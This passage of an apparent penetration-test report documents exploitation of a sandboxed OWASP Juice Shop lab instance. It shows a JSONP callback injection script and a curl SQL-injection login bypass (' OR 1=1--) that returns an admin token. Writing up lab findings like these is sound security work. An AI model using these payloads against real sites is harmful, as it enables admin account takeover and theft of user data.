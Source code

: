 **Exploitation Steps:**
1. From any web page context, create a script tag targeting the vulnerable endpoint:
```javascript
const script = document.createElement('script');
script.src = '/rest/user/whoami?callback=alert';
document.head.appendChild(script);
```
2. Observe JavaScript execution via alert dialog with user data object

**Proof of Impact:**
Successfully achieved JavaScript execution as evidenced by alert dialog displaying "[object Object]" containing user data. The JSONP endpoint generates response format: `/**/ typeof alert === 'function' && alert({"user":{}});` which executes the injected callback function.

**Notes:**
This vulnerability enables cross-domain attacks and can be used to exfiltrate user data from the JSONP endpoint. Attackers can host malicious pages that include this endpoint as a script source to steal user information.

# Authentication Exploitation Evidence

## Successfully Exploited Vulnerabilities

### AUTH-VULN-06: SQL Injection Authentication Bypass

**Summary:**
- **Vulnerable location:** POST /rest/user/login endpoint
- **Overview:** Complete authentication bypass via SQL injection in email parameter
- **Impact:** Admin account takeover and full user database access
- **Severity:** Critical

**Exploitation Steps:**

1. Identify SQL injection vulnerability in login query structure: `SELECT * FROM Users WHERE email = '${req.body.email}'`

2. Execute SQL injection payload to bypass authentication:
```bash
curl -X POST "http://juice-shop.sandbox.local:3001/rest/user/login" \
-H "Content-Type: application/json" \
-d '{"email":"admin@juice-sh.op'\'' OR 1=1-- ","password":"anything"}'
```

3. Server returns HTTP 200 with complete admin authentication:
```json
{
  "authentication": {
    "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9...",
    "bid": 1,
    "umail": "admin@juice-sh.op"
  }
}
```
